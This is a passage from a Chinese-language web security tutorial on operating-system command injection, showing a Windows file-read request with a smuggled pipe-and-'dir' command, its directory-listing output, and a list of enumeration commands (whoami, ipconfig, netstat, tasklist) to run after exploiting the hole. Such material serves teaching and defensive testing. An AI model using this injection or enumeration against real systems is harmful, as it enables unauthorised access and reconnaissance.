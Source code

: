 如果应用不对这个请求进行验证操作，我们可以获得如下的结果。

```plain
    Exec Results for 'cmd.exe /c type "C:\httpd\public\doc\"Doc=Doc1.pdf+|+Dir c:\'
    Output...
    Il volume nell'unità C non ha etichetta.
    Numero di serie Del volume: 8E3F-4B61
    Directory of c:\
     18/10/2006 00:27 2,675 Dir_Prog.txt
     18/10/2006 00:28 3,887 Dir_ProgFile.txt
     16/11/2006 10:43
        Doc
        11/11/2006 17:25
           Documents and Settings
           25/10/2006 03:11
              I386
              14/11/2006 18:51
             h4ck3r
             30/09/2005 21:40 25,934
            OWASP1.JPG
            03/11/2006 18:29
                Prog
                18/11/2006 11:20
                    Program Files
                    16/11/2006 21:12
                        Software
                        24/10/2006 18:25
                            Setup
                            24/10/2006 23:37
                                Technologies
                                18/11/2006 11:14
                                3 File 32,496 byte
                                13 Directory 6,921,269,248 byte disponibili
                                Return code: 0

```

可以看到，我们成功实现了操作系统命令注入的攻击。这说明，我们发现了一个操作系统命令注入漏洞。接下来，我们就可以利用这个漏洞来获得我们想要的信息。那么，要如何获得这些信息呢？我整理了一些在Linux和Windows中常用的获取信息的操作系统命令。

```bash
#当我们想要获取系统当前用户名时，可以用下述命令。
whoami            (Linux/Windows)
#当我们想要获取操作系统信息时，可以用下述命令。
uname -a          (Linux)
ver               (Windows)
#当我们想要获取网络配置信息时，可以用下述命令。
ifconfig          (Linux)
ipconfig /all     (Windows)
#当我们想要获取网络连接信息时，可以用下述命令。
netstat -an       (Linux/Windows)
#当我们想要查看运行的进程时，可以用下述命令。
ps -ef            (Linux)
tasklist          (Windows)

```

